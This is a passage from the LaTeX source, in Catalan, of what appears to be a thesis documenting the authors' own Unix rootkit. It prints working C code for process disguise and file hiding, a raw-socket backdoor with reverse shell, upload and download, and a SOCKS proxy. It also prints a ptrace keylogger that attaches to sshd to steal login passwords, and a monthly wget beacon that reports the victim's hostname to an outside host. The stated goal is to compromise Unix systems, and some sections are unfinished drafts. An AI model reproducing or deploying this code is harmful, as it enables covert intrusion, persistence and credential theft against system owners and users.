            memset(argv@PYZlb[]i@PYZrb[], @PYag[0], strlen(argv@PYZlb[]i@PYZrb[]));
            realloc(argv@PYZlb[]i@PYZrb[], strlen(PROCNAME)@PYbe[+]@PYag[1]);
            memcpy(argv@PYZlb[]i@PYZrb[], PROCNAME, strlen(PROCNAME)@PYbe[+]@PYag[1]);
        }
}
\end{Verbatim}
    \caption{launcher.c::rename\_proc()}
    \label{fig:laucner_rename_proc}
\end{figure}

\item Executable no referenciat des de /proc/self/exe, i chdir a / . \\
Per tal que de si algú sospita del procés no es trobin pistes de què realment no és un procés intern del sistema operatiu, just al arrancar el procés,
aquest canvia de directori al directori arrel. Un cop llançat el procés, aquest es mapeja en una altre posició de memòria, i elimina les antigues pàgines. D'aquesta manera, aconsegueix eliminar la referència de /proc/self/exe, i que llavors aquest no apunti a l'executable en qüestió. 

\item Localització física del fitxer. \\
Per tal que el fitxer estigui força amagat, s'ha  buscat un path al sistema on rarament s'hi accedeixi. El
path escollit per defecte és /usr/share/zoneinfo/posix/America/Indiana/. / i és possible canviar-lo en 
les opcions de compilació.
\item Comunicació xifrada. \\
Un altre mètode d'ocultació és el fet de xifrar tot el trànsit que passa per la xarxa, de tal manera que ningú pogués veure de forma accidental o 
intencionada, que és el què està viatjant per la xarxa.
\item Eliminació de les variables d'entorn. \\
Al ser executat, el launcher elimina tota variable d'entorn per tal que no es pugui tenir cap pista de què és el procés.
\end{enumerate} 

 
\subsection{Heard beat}
Per implementar el heard beat, s'han utilitzat les tasques programades de periodicitat mensual. En l'script
.monthly, s'ha afegit la comanda de la figura XXX

\begin{Verbatim}[commandchars=@\[\]]
wget -q hostru.mine.nu/index.php?h@PYbe[=]@PYay[$(]hostname@PYay[)]
\end{Verbatim}

Aquesta comanda, s'executarà mensualment, i realitzarà una petició contra una pàgina web, allotjada en un
servidor gratuït. Al realitzar la petició, aquesta quedarà contabilitzada juntament amb el hostname i la ip
on es troba el rootkit.

\subsection{Independència de la shell}
Per a aconseguir que el rootkit no depengui de quina shell té instal·lada el sistema on s'està executant, 
s'ha modificat la shell dash\footnote{shell basada en ash, reescrita per debian. Té la peculiaritat de ser
una shell a l'estil sh, però d'un tamany molt reduit} per a poder-se afegir dintre el rootkit. \\

En el moment en què es compila el rootkit, aquest ens demana si volem incloure una shell dintre seu, i en
cas de voler, incorpora el codi basat en dash. Com sempre aquest codi també es estàtic i compilat utilitzant
la llibreria dietlibc. \\

Els canvis que han estat necessaris per tal d'incloure la shell dash en el rootkit, són uns canvis força
metòdics i que no aporten gaire valor afegit. En cas d'interessar, es pot consultar directament al codi.\\

\subsection{Proxy socks}
Per a afegir aquesta funcionalitat al nostre rootkit, s'ha intentat (igual que en el cas anterior), buscar
un software existent que ens oferis la funcionalitat desitjada. El problema que hem tingut en el cas del servei de
socks, és que els paquets disponibles, ofereixen moltíssimes altres funcionalitats que nosaltres no
necessitem. Aquest mateix fet, feia molt costós el modificar el codi per a tenir un servei socks simple, i 
per aquest motiu s'ha decidit implementar des de zero tot el protocol. Cal tenir en compte però,
que el protocol socks, és un protocol força senzill. \\

El primer a fer, ha estat buscar les especificacions formals del protocol\footnote{Les especificacions 
formals}. Un cop localitzades, i estudiades, s'ha decidit implementar la versió 4 i la versió 4a ja 
que ofereixen exactament el què necessitem. \\

Com veurem a continuació, la diferència entre la versió 4 i 4a, rau en què la versió 4, el servei de socks
espera rebre una direcció on connectar-se, i en la 4a rep un domini que el propi servei de socks ha de
resoldre. Ambdues versions del protocol, en un primer moment el client envia una capçalera, i un cop enviada,
si el servei de socks és capaç de establir-hi una connexió, la connexió que ha inicilitzat el client, es
transforma en la connexió que ha solicitat sent el servidor socks, un intermediari.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[void] @PYaL[pthread_socks](@PYaJ[void] @PYbe[*]sock) {
    @PYay[struct] message req;
    @PYay[struct] in_addr in;

    @PYaE[// read client packet]
    read((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](@PYay[struct] message));
    @PYaJ[char] buf@PYZlb[]@PYag[4]@PYZrb[];
    read((@PYaJ[int])sock, buf, @PYag[4]);
    print_message(@PYbe[&]req);

    @PYaE[// if client is using socks4a]
    in.s_addr @PYbe[=] req.dstip;
    @PYay[if] (strstr(inet_ntoa(in), @PYaB["]@PYaB[0.0.0]@PYaB["])) {
		@PYaJ[char] dstip4a@PYZlb[]@PYag[1024]@PYZrb[];
		read((@PYaJ[int])sock, dstip4a, @PYag[1024]);
		req.dstip @PYbe[=] resolve(dstip4a, @PYag[0]);
	}

    @PYaE[// socks]
    @PYaJ[int] sock2;
    @PYay[if] ((sock2 @PYbe[=] launcher_rcon(req.dstip, ntohs(req.dstport))) @PYbe[>] @PYag[0]) {
        debug(@PYaB["]@PYaB[Connected!]@PYao[\n]@PYaB["]);
        req.cd @PYbe[=] @PYag[90];
        write((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](req));
        socks_forward((@PYaJ[int])sock, sock2);
    } @PYay[else] {
        debug(@PYaB["]@PYaB[ERROR!]@PYao[\n]@PYaB["]);
        req.cd @PYbe[=] @PYag[91];
        write((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](req));
    }
    close((@PYaJ[int])sock);
    close(sock2);
    exit(@PYag[0]);
}
\end{Verbatim}
    \caption{socksd.c::pthread\_socks()}
    \label{fig:socksd}
\end{figure}

En la figura \ref{fig:socksd} es mostra la funció més caracteristica d'aquesta funcionalitat, ja que és 
la funció que interpreta les capçaleres socks4 i socks4a. En ella, podem veure com omplim l'estructura
message amb la capçalera que ens envia el client. Just després, es comproba si la destinació és una 
destinació vàlida o no, i en cas de no ser-ho, es llegeix més enllà de la capçalera on si espera trobar 
el nom DNS del host on establir la connexió. \\
Com podem veure, just abans de passar a reenviar incondicionalment tot el tràfic entre els dos cantons
de la conneixó, cal que enviem al client, un missatge comunicant-li si la connexió s'ha pogut establir
o no.

\section{Entorn privilegiat}
En l'entorn privilegiat, el nostre rootkit s'aprofita de la possibilitat de poder utilitzar raw sockets 
per tal d'implementar modes de comunicació pensats per comunicar-se amb sistemes molt protegits i xarxes 
molt restrictives, i de la possibilitat de debugar serveis del sistema. \\

Una descripció més conceptual del funcionament d'aquest protocol de comunicació, ha estat comentada en 
detall i amb l'ajuda d'esquemes en l'apartat de disseny del rootkit (POSAR REFERÈNCIA). Per al major 
aprofitament d'aquest punt, se'n recomana la lectura. \\

\subsection{Modes de comunicació}
Tal i com es pot veure en la figura \ref{fig:launcher_raw_daemon} , el rootkit en execució en un entorn 
privilegiat, es troba executant un while on cada paquet de xarxa que arriba a la màquina (independentment
de si el port de destí està obert o no), la funció recvfrom el rep. Com que la majoria de paquets que
rebrà una màquina, no seran paquets nostres, ens interessa que aquesta funció tingui la menor latencia 
possible per afectar el mínim possible a la màquina on corri el nostre rootkit. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
sock @PYbe[=] socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
@PYay[if] (sock @PYbe[<] @PYag[0]) {
    debug(@PYaB["]@PYaB[Can't allocate raw socket]@PYao[\n]@PYaB["]);
    exit(@PYbe[-]@PYag[1]);
}

antidebug_obfuscate_analysis(@PYag[16]);

@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
		}
    }
}
\end{Verbatim}
    \caption{launcher.c::raw\_daemon()}
    \label{fig:launcher_raw_daemon}
\end{figure}

La primera comprobació que es fa, és la del tamany de paquet. Si el tamany de paquet rebut no és exactament
la dels nostres paquets, aquest paquet ja pot ser descartat. Gràcies a això, podem descartar la majoria de 
paquets que no van destinats al rootkit. En cas que un paquet ocupi exactament com els nostres paquets, 
caldrà comprobar si es tracta d'un paquet autenticat amb la contrasenya escollida en el moment de la 
compilació (CLIENTAUTH) o si es tracta d'una comprobació per veure si el rootkit està instal·lat o no 
(independentment de coneixer la contrasenya o no). \\

Un cop ens arribi un paquet autenticat, d'aquest se li extreu el típus d'acció a executar.

\subsubsection{Mode de comunicació REV}
En cas que en el paquet rebut es soliciti realitzar una acció de tipus reversa, el primer que caldrà fer
és establir una connexió amb l'origen del paquet. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] REVUPLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse uploading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_upload(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVDOWNLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse downloading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_download(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVSHELL:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Launching reverse shell]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
    \caption{launcher.c::do\_action()}
    \label{fig:launcer_do_rev_action}
\end{figure}

Podem veure en la figura \ref{fig:launcer_do_rev_action} que aquesta conneixó serà establerta utilitzant
la funció launcher\_rcon() que un cop estableixi la connexió amb l'origen del paquet (ip->s\_addr i d->port)
retorna un socket que és el què serà utilitzat.


\subsubsection{Mode de comunicació RAW}
 
\subsection{Keylogger}
La idea que hi havia a l'hora d'implementar el keylogger, era que aquest no s'implementés com a mòdul o
utilitzant la injecció de codi en el kernel, ja que aquesta tècnica depen molt de la versió de kernel que 
s'estigui utilitzant en un moment donat. Com que per aquest funcionalitat disposem de accés de root, podem
fer gairebé qualsevol cosa a nivell d'usuari, i per aquest motiu, pensavem que seria possible. \\

Cal dir que l'objectiu principal per aquesta funcionalitat, es el de permetre'ns recuperar el password de l'usuari
root o almenys la d'algun usuari del sistema. Per aquest motiu, el servei que s'ha posat com a objectiu, ha estat el OpenSSH\footnote{Openssh .....}
Aquest servei s'acostuma a trobar instal·lat a la majoria de màquines UNIX i permet a usuaris de sistema
autenticar-se per a usar i administrar la màquina. Cal tenir en compte que aquest servei és considerat seguir
ja que utilitzar algoritmes criptogràfics així com claus públiques i privades.\\

La primera opció que es va seguir per tal de poder llegir els passwords del sistema, va ser intentar 
interceptar totes les escriptures a els dispositius tipus tty o pts. Aquests dispositius són els què reben 
les dades ja en clar i comuniquen el servei de Openssh amb la shell del sistema. \\
La idea era comprobar quins dispositius estava utilitzant l'ssh i començar a llegir d'ells, el problema que
varem tenir, és que si el nostre keylogger llegia del dispositiu, llavors l'aplicació en qüestió no revia les
dades, sinó que l'únic que les revia era el keylogger. El primer que es va intentar per arreglar això,
va ser intentar un cop llegides les dades, ser capaços de escriure-les a algun altre lloc per a què
l'aplicació les acabés rebent, el què passa és que el funcionament dels termianls tty y pts, estan pensants
justament per evitar això.\\

En definitiva això permetria recuperar el password, però alhora deixa inhabilitat el servei denegant així 
totes les possibles noves connexions. \\

La segona opció que teníem ja va resultar. Aquesta tractava de que el nostre keylogger debuggués l'aplicació
en qüestió podent així interceptar cada crida al sistema, i poder seguir l'execució del servei fins al moment
en què el servei intenta autenticar-se al sistema utilitzant les dades que el client de ssh li ha passat. \\

El funcionament del keylogger queda doncs resumit en aquests passos:
\begin{enumerate}
\item Busqueda del servei de Openssh.
\item Inici del debug interceptant totes les crides a sistema.
\item Traça de les crides clone i read.
\item Detecció de l'enviament d'un nom d'usuari i password.
\item Emmagatzemament de les dades capturades en un fitxer xifrat.
\end{enumerate}

El primer punt és la localització del procés sshd. Per trobar-lo s'ha utilitzat la búsqueda a través del
directori /proc. Es busca un procés que pengi del procés init, i que tingui el nom de sshd. \\

Un cop trobat aquest procés, el primer que fa el keylogger, és canviar-se el nom de procés a el nom 
exacte que té el procés que vol debugar. Un cop fet això, cal attachar-s'hi utilitzant la crida de sistemes 
POSIX ptrace. A partir d'aquest moment, es pot dir que estem debugant el servei. \\

Un cop attachat el keylogger espera que el servei Openssh executi les crides a sistema clone() i read().
La crida clone() és utilitzada per a crear nous processos per atendre les noves connexions en les què
hi haurà un usuari intentant-se autenticar. La crida read() és utilitzada per a llegir l'usuari i password
que l'usuari entra i amb els què es vol autenticar. \\

En el moment que el keylogger detecta que arriba una nova connexió, aquest s'attacha a el nou procés creat
per a l'Openssh, i el segueix fins a rebre les dades d'autenticació (usuari i password). Un cop els té,
deixa de debugar el procés i li permet la seva normal execució. \\

Les dades capturades són emmagatzemades en un fitxer relatiu al home del rootkit anomenat ``.k\_sshd''. 
El contingut d'aquest fitxer està xifrat amb el mateix password que s'utilitza per xifrar el contingut
dels paquets de xarxa així com per autenticar el client amb el launcher. Per tal de poder accedir de
manera fàcil al contingut en clar d'aquest fitxer, el propi launcher permet ser llançat per tal de desxifrar
el fitxer ``.k\_sshd''.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[int] check_ssh_password(@PYaJ[unsigned] @PYaJ[char] @PYbe[*]buff, @PYaJ[int] len){
	@PYaE[// Password string is | uint | chars |]
	@PYay[if] (len @PYbe[>] @PYag[32] @PYbe[|]@PYbe[|] len @PYbe[<] @PYag[5]) @PYay[return] @PYag[0];

    @PYaE[// ptr points to the last char of the string]
	@PYaJ[unsigned] @PYaJ[char] @PYbe[*]ptr @PYbe[=] buff@PYbe[+]len@PYbe[-]@PYag[1];
	@PYay[while] (@PYbe[*]ptr @PYbe[!]@PYbe[=] @PYaT[0x00]) ptr@PYbe[-]@PYbe[-];

	antidebug_obfuscate_analysis(@PYag[11]);
	@PYaE[// Now we must have two bytes 0x00 at left and one < 0x0f at right]
	@PYay[if] ( @PYbe[*](ptr@PYbe[-]@PYag[1]) @PYbe[!]@PYbe[=] @PYaT[0x00] @PYbe[|]@PYbe[|] @PYbe[*](ptr@PYbe[-]@PYag[2]) @PYbe[!]@PYbe[=] @PYaT[0x00]) @PYay[return] @PYag[0];

	@PYaE[// Now bytes from ptr+2 to buff+len-1 has to be exactly *ptr+1]
	@PYay[if] (((buff@PYbe[+]len@PYbe[-]@PYag[1])@PYbe[-](ptr@PYbe[+]@PYag[1])) @PYbe[!]@PYbe[=] @PYbe[*](ptr@PYbe[+]@PYag[1])) @PYay[return] @PYag[0];

    @PYay[if] (useRc4) {
        rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])RC4KEY, @PYay[sizeof](RC4KEY), @PYbe[&]rc4_crypt);
        rc4(ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]), @PYbe[&]rc4_crypt);
    }
    write(@PYag[1], ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]));
    putchar(@PYac['\n']);

    @PYay[return] @PYag[1];
}
\end{Verbatim}
    \caption{keylogger.c::check\_ssh\_password()}
    \label{fig:keylogger_check_password}
\end{figure}
      
En la figura \ref{fig:keylogger} es mostra el tros de codi que comproba que l'string llegit és un string 
de usuari o de password i en cas de ser-ho ho xifra i ho escriu al fitxer en qüestió ja que previament 
s'hi ha mapejat el descriptor de fitxer 1. Aquesta funció és cridada quan s'intercepta un string llegit per
un read() per a comprobar que segueix el format que utilitza l'Openssh. \\

Com és evident, per tal de poder desenvolupar el keylogger per l'Openssh, va caldre un gran estudi del 
comportament d'aquest software per ser capaços de detectar com i quan es transfereixen les dades d'usuari i
password. \\
En aquest anàlisis, ens varem donar compte que les dades en clar utilitzades durant l'autenticació, eren
transferides utilitzant un format en concret que és el què aquesta funció comproba. El format en qüestió
és TAG + LONGITUD + DADES on les dades és un string. Tenint en compte que un password serà normalment més
curt que 255 caràcters, i que la longitud està expressada en 4 bytes, aquesta funció comproba que el format
es compleix. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
ptrace(PTRACE_SYSCALL, pid, @PYaX[NULL], @PYaX[NULL]);
exitPid @PYbe[=] wait(@PYbe[&]status);

antidebug_obfuscate_analysis(@PYag[3]);
@PYay[if] (WIFSTOPPED(status)) {
    @PYay[if] (WSTOPSIG(status) @PYbe[=]@PYbe[=] SIGCHLD) {
        ptrace(PTRACE_CONT, pid, @PYag[0], SIGCHLD);
        kill(pid, SIGSTOP);
    } @PYay[else] 
        @PYay[if] (WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGTRAP @PYbe[&]@PYbe[&]  WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGSTOP) {
        ptrace(PTRACE_CONT, pid, @PYag[0], WSTOPSIG(status));
        debug(@PYaB["]@PYaB[Acabant procés pare %d (%d)]@PYao[\n]@PYaB["], pid, WSTOPSIG(status));
        @PYay[break];
    }
    @PYay[else] {
        orig_eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] ORIG_EAX, @PYaX[NULL]);

        antidebug_obfuscate_analysis(@PYag[4]);
        @PYay[switch] (orig_eax) {
            @PYay[case] __NR_clone:
                @PYay[if](insyscall @PYbe[=]@PYbe[=] @PYag[0]) {
                    debug(@PYaB["]@PYaB[fork]@PYao[\n]@PYaB["]);
                    insyscall @PYbe[=] @PYag[1];
                } @PYay[else] {
                    insyscall @PYbe[=] @PYag[0];
                    eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] EAX, @PYaX[NULL]);
                    @PYay[if](@PYbe[!]fork()) {
                        lookForReads(eax);
                    }
\end{Verbatim}
    \caption{keylogger.c::main()}
    \label{fig:keylogger_main}
\end{figure}

En la figura \ref{fig:keylogger_main} podem veure com un cop ja estem attachats al procés principal del 
Openssh, anem seguin les diferents crides a sistema per trobar en aquest cas un clone(). En el moment
en que es retorni de la crida clone(), capturem el valor del registre eax que correspon al pid del procés
fill o 0 en cas de ser el propi fill. Quan en el pare obtenim el pid del fill acabat de crear, saltem a la 
funció lookForReads() tot passant-li el nou pid a seguir. En aquest funció, es crearà un nou procés del 
nostre keylogger, que segurà exclusivament aquest nou procés que acaba de crear l'Openssh. En aquesta nova
connexió, ja serà on buscarem les dades que ens interessen. \\

Podem veure en la mateixa figura, que segons el signal que faci aturar el nostre procés, ens interessarà
que aquest arrivi al procés que estem debugant, o fins i tot, farà que deixem de debugar-lo ja que entendrem
que es vol aturar el servei. \\

Per acabar, comentar que aquest keylogger s'ha implementat només per i386 i funciona per tota la branca 
de l'Openssh de la versió 2.x. Tot i això, el fet de passar-la a x86\_64, és trivial i es farà fora de 
l'àmbit del projecte. També comentar que la intenció és acabar-hi afegint nous serveis per a que el keylogger
sigui capaç de capturar informació d'altres fonts.

\subsection{Injecció de codi en memòria del nucli}
En el transcurs del projecte, l'equip que desenvolupa el kernel de Linux, varen aplicar un 
patch\footnote{\href{Patch que evita l'ús de /dev/mem per accedir a la memòria}{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=ae531c26c5c2a28ca1b35a75b39b3b256850f2c8}} que evita
l'accés a la memòria a través de /dev/mem quedant així totalment impossibilitada la tècnica que es volia 
utilitzar. 



% Estudi econòmic
\chapter{Estudi Econòmic}


% Conclussions
\chapter{Conclusions}
        - El capitol de conclussions, bàsicament fa una
        recapitulació de tots els objectius que s'havien
        marcat al capitol d'introducció/requeriments
        enumerant quins s'han aconseguit, i quins no,
        explicant el perquè, i les futures linies de treball.
Tenim un
        problema "volem comprometre sistemes UNIX", hem
        pensat una possible sol.lució (l'idea conceptual),
        tenim una idea més o menys clara del que cal fer i
        com fer-ho. Per tant, és viable fer-ho, però cal
        deixar-ho ben present a qui llegeixi la teva memòria.


% Apendix: 
\appendix

% Bibliografia
\clearpage
\phantomsection
\addcontentsline{toc}{chapter}{\numberline {10}Bibliografia}

\begin{thebibliography}{9}
 
\bibitem{dietlibc}
  Felix von Leitner,
  \emph{diet libc - a libc optimized for small size}.
  http://www.fefe.de/dietlibc/
  2009.
 

\bibitem{unix-programming}
  W. Richard Stevens, Stephen A. Rago,
  \emph{Advanced Programming in the UNIX Environment, Second Edition}.
  ISBN 0321525949,
  2008.


\bibitem{milw0rm}
  Str0ke, str0ke[at]milw0rm.com,
  \emph{milw0rm - exploits : vulnerabilities : videos : papers : shellcode}.
  http://www.milw0rm.com/,
  2003-2009.


\end{thebibliography}

%http://en.wikipedia.org/wiki


% Glossari
\renewcommand{\nomname}{Glossari}

%<*sample05>
%\def\@@@nomenclature[#1]#2#3{%
%\def\@tempa{#2}\def\@tempb{#3}%
%\protected@write\@nomenclaturefile{}%
%	{\string\nomenclatureentry{#1\nom@verb\@tempa @[{\nom@verb\@tempa}]%
%		|nompageref{\begingroup\nom@verb\@tempb\protect\nomeqref{\theequation}}}%
%	{\thepage}}%
%\endgroup
%\@esphack}

%\def\nompageref#1#2{%
%	\if@printpageref\pagedeclaration{#2}\else\null\fi
%	\linebreak#1\nomentryend\endgroup}

%\def\pagedeclaration#1{\dotfill\nobreakspace#1}
%\def\nomentryend{.}
\def\nomlabel#1{\textbf{#1}\hfil}

\nomenclature[rootkit]{Rootkit}{Eina o grup d'eines que té com a finalitat 
    amagar-se a ella mateixa, i amagar altres programames, processos, arxius, directoris, ports, etc., 
    per tal que permeti a un intrús accedir al sistema, remotament o no, així com extreure informació.}

\nomenclature[backdoor]{Backdoor}{Veure definició de Porta del darrere.}

\nomenclature[porta del darrere]{Porta del darrere}{És un mètode per sobrepassar el sistema d'autenticació normal d'una 
    màquina remota. La funció de porta del darrere la pot fer tant un software afegit a la màquina, com la modificació
    d'un software existent. En anglès s'anomena backdoor}

\nomenclature[nucli de sistema operatiu]{Nucli del sistema operatiu}{El núcli del sistema operatiu o kernel, és el component
    central dels sistemes operatius. La seva principal responsabilitat és la gestió dels recursos del sistema de manera 
    justa i segura.}

\nomenclature[kernel]{Kernel}{El kernel és el nucli del sistema operatiu.}

\nomenclature[virus]{Virus}{Un virus informàtic que té per objectiu alterar el funcionament de la màquina per a realitzar
    tasques que el propietari de la màquina no ha sol·licitat, ni vol.}

\nomenclature[cavall de troia]{Cavall de Troia}{Tipus de virus informàtic que permet que externament es pugui accedir a les 
    dades del sistema.}

\nomenclature[UNIX]{Unix}{Sistema operatiu creat el 1969 per l'empresa AT\&T Bell a partir del qual, molts altres sistemes 
    operatius van basar-se en la seva arquitectura i principis.}

\nomenclature[malware]{Malware}{Peça de software que té un objectiu maliciós.}

\nomenclature[programari lliure]{Programari Lliure}{El programari lliure (en anglès free software) és el programari que pot 
    ser usat, estudiat i modificat sense restriccions, i que pot ser copiat i redistribuït bé en una versió modificada o 
    sense modificar sense cap restricció, o bé amb unes restriccions mínimes per garantir que els futurs destinataris també 
    tindran aquests drets.}

\nomenclature[GNU]{GNU s Not Unix}{Projecte que va néixer amb l'objectiu de crear un sistema operatiu del tot lliure.}

\nomenclature[linux]{Linux}{Nucli del sistema operatiu GNU/Linux. Aquest està basat en Minix, i utilitza una llicència lliure
    per distribuir-se.}

\nomenclature[BSD]{Berkeley Software Distribution}{Sistema operatiu de la universitat de Berkeley inicialment basat en UNIX.}

\nomenclature[solaris]{Solaris}{Solaris és un sistema operatiu de l'empresa Sun Microsystems inicialment basat en el sistema UNIX.}

\nomenclature[hacker]{Hacker}{Persona entusiasta amb el què fa, que té una gran passió en adquirir més coneixement per entendre
    amb detall com funcionen les coses, i en definitiva per aprendre. Aquest terme és utilitzat principalment en temes de seguretat informàtica.}

\nomenclature[cracker]{Cracker}{Persona que té per objectiu realitzar accions perjudicials per algú. En la majoria de mitjans de comunicació 
    quan s'utilitza la paraula hacker en realitat hauria d'utilitzar-se cracker.}

\nomenclature[hackejar]{Hackejar un sistema}{El fet d'introduir-se a un sistema anomenat d'una manera més col·loquial. També
    s'anomena així el fet d'estudiar a fons un sistema.}

\nomenclature[intrusio]{Intrusió}{Una intrusió és l'accés il·legal a una màquina.}

\nomenclature[crawler]{Crawler}{És un programa que navega per el World Wide Web en busca d'alguna cosa.}

\nomenclature[botnet]{Botnet}{Una botnet és una xarxa de màquines que treballa de forma automatitzada i autònoma. Aquesta pot 
    ser controlada o totalment automàtica.}

\nomenclature[dos]{DoS}{Tipus d'atac anomenat Denegació de Servei, que té per objectiu denegar l'ús d'un servei per a la majoria
    dels seus usuaris.}

\nomenclature[exploit]{Exploit}{Peça de software que s'ha desenvolupat per tal d'explotar alguna vulnerabilitat.}

\nomenclature[script kiddie]{Script Kiddie}{Persona que en el món de la seguretat informàtica, només es dedica a descarregar i
    executar exploits desenvolupats per tercers per atacar sistemes. Són usuaris amb uns coneixements molt limitats.}

\nomenclature[newbie]{NewBie}{És tota persona que està aprenent alguna cosa. S'anomenen així els ``Aprenents de hacker''.}

\nomenclature[shellcode]{Shellcode}{Conjunt de bytes que interpretat per un processador, són executats com a operacions vàlides.
    Molts exploits acostumen a incorporar un shellcode que és el codi que s'executarà un cop s'hagi compromès la màquina.}

\nomenclature[shell]{Shell}{Una shell és un intèrpret de comandes del món UNIX.}

\nomenclature[shell remota]{Shell Remota}{És un intèrpret de comandes, però que pot ser usat remotament (a través d'una xarxa o internet).}

\nomenclature[log]{Log}{Fitxer de registre on es van registrant diferents missatges per tal de tenir constància dels diferents events que 
    va llançant un servei en concret.}

\nomenclature[firewall]{Firewall}{Software o hardware que es dedica a filtrar els paquets de xarxa per tal de modificar-los, permetre'ls 
    o denegar-los.}

\nomenclature[resolucio DNS]{Resolució DNS}{Fet de seguir el protocol DNS per obtenir una direcció IP a partir d'un nom.}

\nomenclature[HTTP]{HTTP}{HyperText Transfer Protocol. Protocol utilitzat en el món web per tal de transferir la informació entre client i servidor.}

\nomenclature[IRC]{IRC}{Internet Relay Chat. Protocol utilitzat per a la comunicació de persones a través del què s'anomenen sales de Xat.}

\nomenclature[selinux]{SELinux}{Security-Enhanced Linux. És una funcionalitat de les versions més recents de linux que permet definir
    una sèrie de polítiques per enfortir la seguretat dels sistemes.}

\nomenclature[gcc]{Gcc}{Gnu C Compiler. Compilador de C de GNU. Un dels projectes més importants de GNU}

\nomenclature[randomitzacio de memoria]{Randomització de memòria}{Tècnica utilitzada en els sistemes operatius actuals que tracta 
    de generar les direccions de memòria de forma aleatòria en cada execució per tel de fer-ne més difícil la seva explotació en cas d'errada.}

\nomenclature[antidebug]{Antidebug}{Les tècniques antidebug són totes aquelles tècniques utilitzades per fer més difícil la depuració 
    i anàlisis d'un executable.}

\nomenclature[portable]{Codi/aplicació portable}{Aquell/a que permet ser portat/compilat/executat en més d'un tipus de sistema, sense requerir
    de canvis.}

\nomenclature[root]{Root}{Usuari administrador dels sistemes Unix.}

\nomenclature[TTY]{TTY}{Un tty és una utilitat de UNIX que ens permet emular sessions interactives a un terminal.}

\nomenclature[ELF]{Executable and Linking Format}{Aquest és el format per defecte dels fitxers executables i llibreries en els sistemes Unix actuals.}

\nomenclature[socket]{Socket}{Interfície del sistema utilitzada principalment per a les comunicacions a través de la xarxa.}

\nomenclature[POSIX]{POSIX}{Portable Operating System Interface. Interfície que estandaritza l'API de sistema dels sistemes Unix.}

\nomenclature[keylogger]{Keylogger}{Utilitat que té per objectiu capturar els caràcters escrits per l'usuari, normalment amb l'afany d'aconseguir 
    contrasenyes o dades secretes.}

\nomenclature[bytecode]{Bytecode}{És un sinònim de shellcode o codi màquina. Aquesta paraula prové d'unir la paraula byte més code. És així ja que el bytecode és
    una tira de bytes que és executada com a codi màquina.}

\nomenclature[escanejar]{Escanejar}{S'anomena escanejar una xàrxa o una màquina, el fet de anar passant per tots els components en busca d'alguna cosa. Per ejemple
    quan diem escanejar una màquina, ens podem referir escanejar en busca de vulnerabilitats.}

\nomenclature[spam]{SPAM}{És la publicitat que ens és entregada sense haver-la sol·licitat. Típicament la publicitat que rebem al correu electrònic.}

\nomenclature[NAT]{Setwork Address Translation}{És una tècnica que s'utilitza avui en dia per poder reutilitzar una sola ip pública per a 
    més d'una màquina. Tracta d'enmascarar la ip de les màquines en qüestió, tot substituint-la per la del dispositiu que realitza el NAT. Aquestà tècnica
    és molt utilitzada avui en dia. És la que realitzen la majoria de router ADSL dels internautes de l'estat Espanyol.}

